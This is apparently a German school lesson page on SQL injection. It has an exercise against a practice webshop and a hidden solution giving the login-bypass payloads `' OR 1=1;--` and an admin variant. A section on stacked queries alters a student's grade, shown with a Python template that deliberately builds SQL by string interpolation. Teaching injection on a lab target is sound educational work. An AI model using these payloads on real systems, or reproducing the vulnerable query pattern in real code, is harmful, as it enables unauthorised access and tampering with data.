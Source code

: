 Obwohl `email = ''` falsch ist, wird die Bedingung `1=1` immer wahr sein. Somit werden alle Datensätze zurückgegeben.

:::aufgabe[Übung 2]
<Answer type="state" webKey="9cdf725a-def3-407f-858c-52e35fdf0493" />

Webshop
: 👉 https://hacksql.gbsl.website

1. Versuchen Sie sich einzuloggen, ohne dabei einen Benutzername oder ein Passwort zu verwenden.
2. Einloggen hat funktioniert, nur leider hat dieser Benutzer keine Rechte. Da Sie gestern Abend im Pub zufällig ein Gespräch mit der Entwickler:in des Webshops gehört haben, wissen Sie, dass es einen Admin mit der E-Mail `admin@mail.ch` und eine Tabellenspalte `email` geben muss. Loggen Sie sich ein und löschen Sie ein paar Kaffee-Sorten.

<Answer type="text" webKey="6cea78a1-6c4f-4988-bb14-72716f7e6d04" />

<Solution webKey="45eefd86-7270-4c6f-abdb-690d15f7f54c">
1. Einloggen

```sql
' OR 1=1;--
```

2. Als Admin

```sql
' OR 1=1 AND email='admin@mail.ch'; --
```

</Solution>
:::

## Trick: mehrere Befehle

Ein weiteres Prinzip ist die Verwendung von mehreren SQL-Befehlen. Gewisse Datenbanksysteme führen mehrere durch Semikolons `;` voneinander getrennte Befehle direkt nacheinander aus. Dies ist dann nützlich, wenn Einträge geändert, gelöscht oder hinzugefügt werden sollen.

:::cards{minWidth=250px columns=2}
::br --flexBasis=1400px
#### Template
```py live_py slim
email = "reto@gymnasium.ch"
sql = f"SELECT * FROM students WHERE email = '{email}'"
print(sql)
```
::br
#### Eingabe
```sql
'; UPDATE students SET grade=6 WHERE id=13; --`
```
::br
#### SQL-Abfrage
```sql
SELECT * FROM students
WHERE email = '';
UPDATE students 
SET grade=6 
WHERE id=13; --';
```
:::


[^1]: Quelle: [Wikipedia](https://de.wikipedia.org/wiki/SQL-Injection)
